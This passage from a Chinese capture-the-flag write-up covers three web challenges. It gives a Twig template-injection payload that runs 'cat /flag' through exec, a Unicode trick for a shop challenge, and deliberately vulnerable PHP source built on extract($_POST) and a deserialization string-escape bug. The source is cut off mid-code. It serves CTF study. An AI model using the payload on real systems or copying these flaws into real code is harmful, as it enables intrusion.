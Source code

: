 直接用上面文章的payload：

`user={{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}`

# 0x2B.[ASIS 2019]Unicorn shop

>   考点是编码相关的问题：
>
>   https://xz.aliyun.com/t/5402#toc-0

进去之后让你买东西，并且只能是一个字符`Only one char(?) allowed!`，（要买第四个最贵的那个）

有个网址：https://www.compart.com/en/unicode/

搜索thousand选一个大雨1337的就可以拿到flag

我选的是：`0xF0 0x90 0x84 0xAE`，然后改为%就可以了

# 0x2C.[安洵杯 2019]easy_serialize_php

>   考点就是PHP反序列化的字符逃逸
>
>   https://blog.csdn.net/qq_45521281/article/details/107135706
>
>   自我感觉是一个很有意思的题。


```php
<?php

$function = @$_GET['f'];

function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}

if($_SESSION){
    unset($_SESSION);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;

extract($_POST);

if(!$function){
    echo '<a href="index.php?f=highlight_file">source_code</a>';
}

if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

$serialize_info = filter(serialize($_SESSION));

if($function == 'highlight_file'){
    highlight_file('index.php');
}else if($function == 'phpinfo'){
    eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
```